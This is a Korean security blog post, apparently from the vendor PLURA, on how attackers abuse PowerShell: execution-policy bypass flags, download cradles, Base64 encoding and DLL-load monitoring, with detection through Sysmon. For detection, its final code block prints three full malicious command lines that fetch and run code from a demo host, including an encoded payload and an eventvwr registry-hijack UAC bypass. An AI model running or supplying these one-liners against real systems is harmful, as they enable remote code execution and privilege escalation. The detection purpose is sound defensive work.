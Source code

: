 ```yaml
---
date: 2020-05-12T00:03:00
description: 
featured_image: 
tags: ["PowerShell", "악성코드", "웹 해킹", "보안 취약점", "PLURA"]
title: "PowerShell을 이용한 공격"
---
```


![PowerShell 공격](https://github.com/user-attachments/assets/a90db7c2-5c10-4f7e-b9d4-20c828b5a299)

## PowerShell

PowerShell은 시스템 관리 및 자동화를 목적으로 설계된 명령줄 셸 및 스크립팅 언어입니다.  
Windows Vista 이후 기본 탑재되었으며, 관리 도구로 유용한 만큼 공격자들에게도 자주 사용되고 있습니다.

---

### 1. 실행 정책 (Execution Policy)

Microsoft는 기본적으로 PowerShell 스크립트 실행을 제한합니다.  
그러나 공격자는 이를 쉽게 우회할 수 있습니다.  

**우회 플래그 예시:**  
- `-ExecutionPolicy` 또는 `-EP Bypass`  
- `-ExecutionPolicy` 또는 `-EP Unrestricted`  
- `-noprofile` 또는 `-nop`  

*Profile Bypass: 각 세션이 시작될 때 PowerShell을 구성하기 위해 설정된 Profile도 무시할 수 있습니다.*

---

### 2. 다운로드

PowerShell 클래스 및 메소드를 사용하여 악성 파일을 다운로드 및 실행할 수 있습니다.  

자주 사용되는 명령어:  
- **New-Object**: .NET Framework의 인스턴스를 생성합니다.  
- **System.Net.WebClient**: 원격 리소스와 데이터 송수신에 사용됩니다.  
- **DownloadString**: 원격지에서 내용을 메모리 버퍼로 다운로드합니다.  
- **DownloadFile**: 원격지에서 로컬 파일로 콘텐츠를 다운로드합니다.  
- **IEX (Invoke-Expression)**: 명령을 실행합니다.  
- **ICM (Invoke-Command)**: 로컬 및 원격 컴퓨터에서 명령을 실행합니다.

---

### 3. 인코딩

- PowerShell 명령어를 숨기기 위해 Base64 인코딩이 자주 사용됩니다.  
- 인코딩된 명령어는 명령줄 길이가 비정상적으로 길어질 수 있습니다.  
- 500자 이상의 긴 명령어는 의심해볼 필요가 있습니다.

---

### 4. DLL 호출

- 의심스러운 DLL 호출 조합을 찾아야 악의적 행동을 탐지할 수 있습니다.  
- PowerShell.exe 또는 PowerShell_ISE.exe 이외의 실행 파일에서 아래 DLL 호출이 발생하는지 모니터링하세요.  
  - `System.Management.Automation.Dll`  
  - `System.Management.Automation.ni.Dll`  
  - `System.Reflection.Dll`  

*Sysmon ID 7 (ImageLoaded)을 활용해 확인할 수 있습니다.*

---

### 5. PLURA에서 PowerShell 악성 행위 탐지

**Sysmon 설치 필수**  
- [설치 가이드 보기](https://docs.plura.io/ko/agents/edr/windows/sysmon)

![PLURA 탐지](https://github.com/user-attachments/assets/7f971a25-61de-4a51-8e71-c4e861881576)

---

#### 악성 파일 실행 탐지 예시

PowerShell 우회 및 공격자 서버에서 파일 다운로드 행위 발생:  

![PowerShell 악성 실행](https://github.com/user-attachments/assets/11765e61-7cd0-4b98-8fce-026429934f1c)

**PLURA 필터 탐지**  
PLURA는 Sysmon을 활용하여 아래와 같은 악성 명령을 탐지합니다:

```bash
powershell.exe -nop -NoProfile -WindowStyle 1 -c IEX (New-Object Net.WebClient).DownloadString('https://blog.plura.io/demo/testfile.exe')

cmd.exe /c Start /Min PowerShell.exe -NoP -NonI -EP ByPass -W Hidden -E JE9TPShHV21pIFdpbjMyX09wZXJhdGluZ1N5c3RlbSkuQ2FwdGlvbjskV0M9TmV3LU9iamVjdCBOZXQuV2ViQ2xpZW50OyRXQy5IZWFkZXJzWydVc2VyLUFnZW50J109IlBvd2VyU2hlbGwvV0wgJE9TIjtJRVggJFdDLkRvd25sb2FkU3RyaW5nKCdodHRwOi8vYmxvZy5wbHVyYS5pby9kZW1vL3Rlc3RmaWxlLnBocCcpOw==

cmd.exe /c powershell.exe -w hiddden -nop -ep bypass (New-Object System.Net.WebClient).DownloadFile('http://blog.plura.io/demo/sick.exe','%TEMP%\sick.exe') & reg add HKCU\SOFTWARE\Classes\mscfile\shell\open\command /d %tmp%\sick.exe /f & C:\Windows\system32\eventvwr.exe & PING -n 15 127.0.0.1>nul & %tmp%\sick.exe
```

## 참고

- [SANS 자료](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1511980157.pdf)  
- [Broadcom 보고서](https://docs.broadcom.com/doc/increased-use-of-powershell-in-attacks-16-en)  
- [AhnLab 기사](https://www.ahnlab.com/kr/site/securityinfo/secunews/secuNewsView.do?seq=25651)  

---

## 관련 기사, 보안뉴스

- [보안뉴스 보기](https://bit.ly/2V99SLF)

---

### 수정 사항 요약

1. 마크다운 규격에 맞춰 재정비했습니다.
2. 가독성을 높이기 위해 줄바꿈을 추가했습니다.
3. 내용 중 누락된 설명이나 오류를 보완했습니다.
4. 이미지와 설명을 적절히 연결하여 가독성을 높였습니다.
